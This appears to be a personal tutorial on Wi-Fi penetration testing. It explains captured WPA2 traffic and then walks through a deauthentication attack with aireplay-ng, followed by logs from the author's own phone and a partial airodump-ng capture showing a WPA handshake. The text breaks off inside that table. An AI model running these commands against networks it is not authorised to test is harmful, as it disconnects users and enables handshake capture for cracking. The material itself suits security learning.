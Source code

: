 - We have a `csv` file, a `cap` file, a `kismet.netxml` file, and a `kismet.csv` file. The main file that we will be using here is the `cap` file.
- The `cap` file contains the data that we captured from the target network during the period. It should contain everything that was sent to/from the target network during that time. It should contain URLs, chat messages, usernames, passwords or anything that any of these devices did on the internet, because anything that they have to do will have to be sent to the router.
- The only problem is that our target network is encrypted with `WPA2`, which means that the data is encrypted and we cannot read it directly.
- But we can analyze the packets using a tool called `Wireshark`, which is a network protocol analyzer that can read and analyze the packets in the `cap` file.

## Deauthentication Attack

- The Deauthentication attack allows us to disconnect a client from a wireless network by sending deauthentication frames to the target client.
- For this we will be pretending to be the client that we want to disconnect by changing our MAC Address to the MAC Address of the client, and tell the router that we want to disconnect from it. Then we are going to pretend to be the router, by changing our MAC Address to the MAC Address of the router, and tell the client that we want to disconnect it.
- This will successfully allow us to disconnect or deauthenticate any client from any network.

- For this we will be using the `aireplay-ng` command, which is a part of the `aircrack-ng` suite. It allows us to send deauthentication frames to the target client.

- In order to do so, use the command:

    ```bash
    root@kali:~# aireplay-ng --deauth 100000000 -a <BSSID> -c <CLIENT_MAC> -D wlan0
    ```

  - Remove `-D` if the target network is 2.4GHz Network.

- I tested this on my mobile, and my mobile got disconnected from the network. It tried to reconnect to the network, but it failed to do so. It kept trying to reconnect for a while, but it failed to do so.

- Below are the logs:

    ```bash
    root@kali:~# aireplay-ng --deauth 100000000 -a WIFI_MAC -c MOBILE_MAC -D wlan0
    21:12:19  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [53|68 ACKs]
    21:12:20  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    21:12:20  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    21:12:21  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|64 ACKs]
    21:12:21  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|64 ACKs]
    ```

- To confirm this we also run the `airodump-ng` command again to see how the packets are being lost, along with screenshots of the mobile trying to reconnect to the network:

    ```bash
    root@kali:~# airodump-ng --bssid WIFI_MAC --channel 36 wlan0

    CH 36 ][ Elapsed: 24 s ][ 2025-07-25 21:17 ][ WPA handshake: WIFI_MAC 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
